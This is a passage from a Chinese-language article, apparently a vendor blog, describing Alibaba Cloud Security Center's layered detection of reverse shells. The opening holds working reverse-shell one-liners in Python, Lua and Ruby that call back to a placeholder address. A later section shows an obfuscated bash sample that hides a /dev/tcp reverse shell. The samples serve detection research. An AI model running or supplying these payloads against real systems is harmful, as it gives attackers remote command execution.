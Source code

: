 编程语言实现标准输入中转，重定向命令执行的输入到中转，比如以下案例

    
    
    python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('10.10.10.10',6060))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"  
    
    
    
    lua5.1 -e 'local host, port = "10.10.10.10", 6060 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'  
    
    
    
    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.10","6060");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'  
    

 **阿里云安全中心多维检测方案**

攻击与防御技术总是在不断的对抗中升级，任何单点的突破都可能形成稳定绕过方式。理论上任何一种反弹shell检测都不是完美的，特别是第三类反弹shell。云安全中心实践纵深检测思想，使用多维度检测方案交叉埋点，覆盖从反弹shell执行到后续渗透利用多个阶段。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175445.png)

除了上文我们详细介绍的更贴近反弹shell本质的FD检测技术，以及从行为目的出发的异常命令行为序列检测技术、异常shell启动检测，还有常规的命令、网络特征覆盖方案以外，云安全中心同时使用以下技术方案进行兜底，最大程度保障检出效果。

### 脚本沙箱

对于脚本类型的反弹shell，阿里云云安全中心也有针对性解决方案。对于落盘脚本文件进行文件落盘检测。包括但不限于bash、python、perl、vbs、powershell、bat、jar等。

    
    
    "${@~~}"  "${@^^}"   $BASH  ${*%%$9tcW\)zX}   <<< "$(  "${@~~}"  $'\162'''e${*}v <<< '   }^^*{$   ")     }^^*{$  ;   }4S:\{\/CZ.!\?//@{$   }^^@{$   "}~~H7ONC{$"   s%  f\"t"n""ir*$p}@!{$  },*{$ }L>JO%*{$ &&  }ca\L&[\%%@{$ '"'"'1&>0 3332/1.1.1.1/PCT/VED/ &> I- HSAB'"'"'=H7ONC    ($"   l}#VDG~g/g:fii\//*{$a"}~@{$"v'"'"'e'"'"'   }~*{$  '  ${@~}   ${@^}  ;   ${*%%S9;fj$^Y}    )"   ${*,,} ${@%r-,,}  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175446.png)

对于混淆类样本，通过每种语言的trace模式，进行动态解混淆后检测。近些年，java应用越来越多，在云上也出现一些利用jar包进行反弹shell的case。阿里云安全中心对jar等打包类文件进行静态反编译以及结合动态的运行进行多维度判定。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175447.png)

随着攻防对抗程度提升，无文件攻击越来越流行，阿里云安全中心针对无文件类反弹SHELL有相应检测方案。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175448.png)

### 二进制沙箱

阿里云安全中心对于常见的c/c++、go、meterpreter
shellcode等二进制反弹shell开发方式进行了特殊的识别和处理，综合导入函数特征、代码特征、二进制在沙箱中的动态行为特征等多个维度进行检测。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175450.png)
